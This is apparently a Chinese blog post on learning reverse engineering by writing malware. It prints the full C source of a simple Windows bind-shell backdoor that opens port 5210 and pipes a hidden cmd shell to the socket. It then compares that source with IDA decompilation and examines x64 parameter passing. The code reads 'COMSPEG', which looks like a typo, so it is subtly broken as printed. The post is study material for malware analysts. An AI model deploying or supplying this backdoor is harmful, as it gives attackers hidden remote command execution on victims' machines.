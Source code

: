 +++
title = '从正向木马编写看逆向工程'

description = "新手村知识"

tags = [ "技术" ]

date = 2020-11-26T20:11:59+08:00

+++

​	提高样本分析能力，最重要的事情之一就是先正向编写木马。之前简单编译过一个程序，今天搜了一个非常简单的后门，比较一下反编译的结果和源码的区别。

​	源码如下。

```
#pragma comment(lib,"ws2_32.lib")  //这里我们静态加入一个lib文件，也就是ws2_32.lib</font>

#pragma comment(linker,"/subsystem:\"windows\"/entry:\"mainCRTStartup\"") //设置连接器选项

#include <winsock2.h> //包含头文件winsock2.h,这个是 windows socket的头文件

#include <windows.h> //常用的，不解释

#define MasterPort 5210 //定义一个常量，也就是我们后面要打开的端口

main()   //主函数不解释
{
  WSADATA WSADa; //这个结构被用来存储被WSAStartup函数调用后返回的Windows Sockets数据。后面的基本上差不多就不解释，不懂请大家自行百度
  sockaddr_in SockAddrIn; 
  SOCKET CSocket,SSocket;
  int iAddrSize;
  PROCESS_INFORMATION ProcessInfo;
  STARTUPINFO StartupInfo;
  char szCMDPath[255];
  
  //分配内存，初始化数据
  ZeroMemory(&ProcessInfo,sizeof(PROCESS_INFORMATION));
  ZeroMemory(&StartupInfo,sizeof(STARTUPINFO));
  ZeroMemory(&WSADa,sizeof(WSADATA));

  //获取cmd路径
  GetEnvironmentVariable("COMSPEG",szCMDPath,sizeof(szCMDPath));

  //加载ws2_32.dll
  WSAStartup(0x0202,&WSADa);

  //设置本地信息和绑定协议,建立socket,代码如下:
  SockAddrIn.sin_family = AF_INET;
  SockAddrIn.sin_addr.s_addr = INADDR_ANY;
  SockAddrIn.sin_port = htons(MasterPort);
  CSocket = WSASocket(AF_INET,SOCK_STREAM,IPPROTO_TCP,NULL,0,0);

  //设置绑定端口，将SockAddrIn绑定到CSocket。
  bind(CSocket,(sockaddr *)&SockAddrIn,sizeof(SockAddrIn));

  //设置服务器端监听端口
  listen(CSocket,1);
  iAddrSize = sizeof(SockAddrIn);

  //开始连接远程服务器，并配置隐藏窗口结构体
  SSocket = accept(CSocket,(sockaddr *)&SockAddrIn,&iAddrSize);

  StartupInfo.cb = sizeof(STARTUPINFO);

  StartupInfo.wShowWindow = SW_HIDE;
  
  StartupInfo.dwFlags = STARTF_USESTDHANDLES |

  STARTF_USESHOWWINDOW;

  StartupInfo.hStdInput = (HANDLE)SSocket;

  StartupInfo.hStdOutput = (HANDLE)SSocket;

  StartupInfo.hStdError = (HANDLE)SSocket;
  
  //创建匿名管道：

  CreateProcess(NULL, szCMDPath, NULL, NULL, TRUE, 0, NULL, NULL, &StartupInfo, &ProcessInfo);

  WaitForSingleObject(ProcessInfo.hProcess, INFINITE);

  CloseHandle(ProcessInfo.hProcess);

  CloseHandle(ProcessInfo.hThread);

 

  //关闭进程句柄：

  closesocket(CSocket);

  closesocket(SSocket);

  WSACleanup();

    //关闭连接卸载ws2_32.dll

  return 0;

  }
```

实际IDA反编译出来的效果如下：

![](https://pub-f40a9f95639d4cee81dcb09d9b4adf70.r2.dev/blog/2024/12/14579c8d6365d8c8ebbc49c59bfc8563.png)

可以看到反编译的结果，库的导入和局部变量的定义是没有的，应该是编译过程中，在链接操作之前这些就已经执行完成了。

简单来说这个程序的功能就是开放5210端口，并监听。然后把输入重定向到新起cmd进程，并把cmd进程的输出重定向到5210端口。

##### 对64位下传参的测试

![](https://pub-f40a9f95639d4cee81dcb09d9b4adf70.r2.dev/blog/2024/12/4df417ee0c925a50506052e490c72dfa.png)

传4个参数及以下，使用的是寄存器传参，cd89，第一个参数传到c，第二个参数传到d，第三个参数传到8，第四个参数传到9。从顺序上来看，从右往左，先从第四个开始传，再从第三个开始传...

![](https://pub-f40a9f95639d4cee81dcb09d9b4adf70.r2.dev/blog/2024/12/7cfa50c168c605c3f3c348bc87cc3891.png)

传5个参数及以上，前四个使用寄存器传参，从第五个开始使用堆栈传参(上图是传完了之后的结果，汇编侧可以看到寄存器的使用)。可以看到第五个参数先使用了寄存器将参数从rbp-14h中取出来(寻址方式。反映变化趋势的方面，栈由高地址向低地址生长，参数由低地址向高地址生长。x64dbg的上面是栈顶低地址下面是栈底高地址)。

![](https://pub-f40a9f95639d4cee81dcb09d9b4adf70.r2.dev/blog/2024/12/d8c9290af6a1335497314da67801034c.png)

然后又赋给了rsp+20，最后把eax中存放的第一个参数赋给ecx。

![0880c08b0110ebe3d330](C:\Users\lizhenxin\AppData\Roaming\LanxinSoftCustom\LxResource\Images\0880c08b0110ebe3d330.png)

比较奇怪的是为什么不在栈顶。

